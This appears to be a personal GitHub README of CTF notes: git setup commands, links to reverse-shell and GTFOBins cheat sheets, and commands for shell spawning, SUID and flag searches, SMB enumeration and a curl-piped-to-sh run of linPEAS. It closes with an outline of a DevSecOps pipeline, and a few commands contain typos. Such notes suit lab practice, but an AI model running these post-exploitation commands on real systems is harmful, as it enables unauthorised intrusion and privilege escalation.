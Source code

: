 # Random
Just a zunk of notes

###  Github command

```bash
git init                                                      
git remote add origin "Paste the link of the github"          
git remote -v                                                 
git add .                                                     
git commit -m "Name of the tool/subjet"                       
git push origin master.
```
### CTF Helper
```bash
https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
```
```bash
https://gtfobins.github.io/
```
```bash
https://highon.coffee/blog/penetration-testing-tools-cheat-sheet/
```
### Python TTY Shell
```bash
python -c 'import pty; pty.spawn("/bin/sh")' 
```
### Bash Shell
```bash
echo os.system('/bin/bash')
```
### shell-PostExploitation
```bash
find / -perm -u=s -type f 2>/dev/null
```
### To clear terminal after spwanning shell
```bash
export TERM=xterm
```
### Auto-complete fuction after gettting shell
```bash
stty raw - echo ; fg 
```
### Abusing SUID 
```bash
find / -type f -perm -4001 -exec ls -h {} \; 2> /dev/null
```
### Find Flags
```bash
→ find | grep flag 
→ find / -type f -name user.txt
→ find / -type -f name **name of the flag you want**
→ search -f flag*.txt #This will find the name called flag with file extension txt
```
### Quick Linux Privilege Escalataion
```bash
curl https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh | sh
→ chmod +x linpeas.sh 
→ ./linpeas.sh
```
### Enumerating SMB
```bash
enum4linux 192.168.1.40
```
```bash
nmap --script smb-os-discovery IP-Address
```
```bash
smbmap -H IP-Address
```
```bash
smbclient -L IP-Address
smbclient //IP-Address/User-Found-In-Disk
```
```bash
net view \\IP-Address /All
```
###  𝐖𝐡𝐚𝐭 𝐝𝐨𝐞𝐬 𝐃𝐞𝐯𝐒𝐞𝐜𝐎𝐩𝐬 𝐂𝐈/𝐂𝐃 𝐩𝐢𝐩𝐞𝐥𝐢𝐧𝐞 𝐥𝐨𝐨𝐤 𝐥𝐢𝐤𝐞?

```bash

🔹 1- 𝐏𝐥𝐚𝐧/𝐃𝐞𝐬𝐢𝐠𝐧
1.1 Threat modeling:
1.2 Secure SDLC

🔹2-𝐃𝐞𝐯𝐞𝐥𝐨𝐩
The Development stage starts with writing code and we can use shift-left security best practice which incorporates security thinking in the earliest stages of development.

2.1-Install linting tools inside the code editor like Visual Studio Code. One of the most popular linting tools is SonarLint. Which highlights bugs and security vulnerabilities as you write code.
-Use Pre-commit hooks to prevent adding any secrets to code.
-Setup Protected branch and code reviews process.
-Sign git commit with GPG key.
-Always verify the downloaded binary/file hash.
-Enable 2-factor authentication.

🔹3-𝐁𝐮𝐢𝐥𝐝 𝐚𝐧𝐝 𝐂𝐨𝐝𝐞 𝐚𝐧𝐚𝐥𝐲𝐬𝐢𝐬
3.1 Scan for secrets and credentials
3.2 Software Bill of Materials (SBOM)
3.2.1 Syft with Grype and Trivy
3.2.2 OWASP Dependency-Check
3.3 Static Application Security Testing (SAST)
3.4 Unit test
3.5 Dockerfile static scanning
3.6 Container image scan
3.7 Container image signing and verifying 
3.8 Container image validation test

🔹4-𝐓𝐞𝐬𝐭
4.1 Smoke test
4.2 API testing
4.3 Dynamic application security testing (DAST)

🔹5-𝐃𝐞𝐩𝐥𝐨𝐲
5.1 Static scan of Kubernete manifest file or Helm chart
5.2 Pre-deploy policy check Kubernete manifest YAML file
5.3 kube-bench for CIS scan
5.4 IaC scanning:

🔹6-𝐌𝐨𝐧𝐢𝐭𝐨𝐫 𝐚𝐧𝐝 𝐀𝐥𝐞𝐫𝐭
Monitoring and Alerting
6.1 Metrics monitoring
6.2 Log monitoring
6.3 Alerting
```
